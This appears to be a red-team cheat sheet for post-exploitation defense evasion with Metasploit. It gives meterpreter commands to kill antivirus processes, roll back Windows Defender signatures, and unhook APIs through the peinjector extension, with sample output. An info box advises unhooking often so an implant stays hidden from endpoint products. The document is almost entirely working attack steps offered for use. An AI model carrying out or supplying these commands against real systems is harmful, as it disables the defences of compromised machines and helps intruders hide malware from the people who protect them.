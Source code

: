 #  Metasploit

Search Tag(s): #post-exploitation #defense-evasion #security-solutions #coff-loader #metasploit-framework

## 01 - Disable Endpoints

```
meterpreter > run post/windows/manage/killav
```

## 02 - Remove Definitions

```
meterpreter > run post/windows/manage/rollback_defender_signatures action=rollback
```

## 03 - Unhook APIs

> [!INFO]
> This will make your implant mostly invisible from most endpoint solutions. Use this technique often when executing offensive tools in the memory.


Load the extension.

```
meterpreter > load peinjector

..[omitted]..
Unhook Commands
===============

    Command       Description
    -------       -----------
    unhook_pe     Unhook the current process
```

Unhook runtime.

```
meterpreter > unhook_pe
[+] Command execution completed:
[0, 0, nil]
```